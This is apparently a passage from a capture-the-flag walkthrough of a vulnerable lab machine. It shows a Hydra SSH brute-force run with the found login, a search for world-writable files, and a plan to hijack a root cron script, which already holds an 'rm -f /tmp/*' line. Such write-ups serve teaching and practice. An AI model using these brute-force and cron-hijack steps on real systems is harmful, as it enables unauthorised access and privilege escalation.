 


>root@kali:~/Desktop# hydra ssh://192.168.124.141 -L user.txt -p Pass.txt
Hydra v8.1 (c) 2014 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (http://www.thc.org/thc-hydra) starting at 2015-10-10 12:20:15
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 10 tasks per 1 server, overall 64 tasks, 10 login tries (l:10/p:1), ~0 tries per task
[DATA] attacking service ssh on port 22
[22][ssh] host: 192.168.124.141   login: overflow   password: Pass.txt
1 of 1 target successfully completed, 1 valid password found
Hydra (http://www.thc.org/thc-hydra) finished at 2015-10-10 12:20:17

the username for the ssh is overflow and the password is Pass.txt so lets connect on the ssh and work some magic!

[![http8](https://trickster0.files.wordpress.com/2015/10/http8.png)](https://trickster0.files.wordpress.com/2015/10/http8.png)

This is the place where we start our system enumeration to check what we can find...i looked around didnt find anything to stand out except from a file in the /opt folder called lmao.py
which i couldnt read cause hello?low permissions so how do we do some priv escalation?we need to find writable file that can run as run so really quick we scan for any files that are writable




>sudo find / -perm -2 ! -type l -ls

what caught my attention though was this file!


>155826    4 -rwxrwxrwx   1 root     root           96 Aug 13  2014 /lib/log/cleaner.py


after cat-ing the file we can see its code



>#!/usr/bin/env python
import os
import sys
try:
    os.system('rm -f /tmp/*')
except:
    sys.exit()


this is good but how does this run???we can totally change the bash command to run something that will benefit us but how do we run it as root? lets look around...after a while i found out that cleaner.py was being executed every 2 minutes by cron schedule task. well the cleaner.py was deleting every 2 minutes whatever we might have downloaded in the /tmp folder so i modified and to this

>#!/usr/bin/env python
import os
import sys
try:
    os.system('ls /tmp/')
except:
    sys.exit()
